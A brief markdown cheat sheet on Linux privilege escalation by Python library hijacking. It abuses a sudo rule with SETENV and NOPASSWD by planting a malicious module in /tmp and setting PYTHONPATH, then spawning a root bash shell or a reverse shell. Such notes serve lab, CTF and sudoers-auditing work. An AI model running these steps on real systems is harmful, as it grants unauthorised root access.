 ### There are multiple ways to escalate with python

## EXAMPLES:

### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

### E.g.: ImportError: No module named pwned

### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

### 5) chmod +x pwned.py

### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

### 7) Enjoy root!

